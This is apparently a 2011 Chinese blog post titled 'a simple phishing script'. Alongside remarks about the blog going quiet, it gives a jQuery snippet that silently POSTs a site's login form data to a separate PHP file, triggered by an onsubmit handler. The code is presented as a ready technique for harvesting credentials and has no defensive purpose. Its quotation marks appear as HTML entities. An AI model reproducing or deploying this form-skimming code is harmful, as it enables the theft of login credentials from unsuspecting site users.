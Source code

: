 ```yaml
---
title: 110506 一个简单的钓鱼脚本
layout: post
permalink: /2080.html
categories:
  - Code
tags:
  - js钓鱼代码
  - PHP
  - 很久没更新了
---
```

最近懒得更新了 ，是因为有老婆了

最近懒得更新了，是因为夜生活太忙了。

时而更，时而断更 ，或许这里会成为荒地。

[<img class="aligncenter size-medium wp-image-2081" title="2010012812205614" src="http://www.80aj.com/wp-content/uploads/2011/05/2010012812205614-300x260.jpg" alt="" width="300" height="260" />][1]

> <script src=&#8221;http://ajax.googleapis.com/ajax/libs/jquery/1.4.4/jquery.min.js&#8221; type=&#8221;text/javascript&#8221;>
> 
> </script>  
> <script language=&#8221;JavaScript&#8221;>
> 
> function checksubmit(){
> 
> $.ajax({
> 
> type : &#8220;POST&#8221;,
> 
> async : false,
> 
> url  : &#8220;../x.php&#8221;,
> 
> data : $(&#8220;#FrmLogin&#8221;).serialize(),
> 
> success : function(msg){
> 
> return true;
> 
> } });}
> 
> </script>
> 
> &nbsp;

在表单的action后面加上onsubmit=&#8221;return checksubmit();&#8221;  
这个方法的最大好处是可以用在html页面，其它好处自己体会吧。

转自 <http://hi.baidu.com/myvbscript/blog/item/33b0003807b2e8e7b311c797.html>

 [1]: http://www.80aj.com/wp-content/uploads/2011/05/2010012812205614.jpg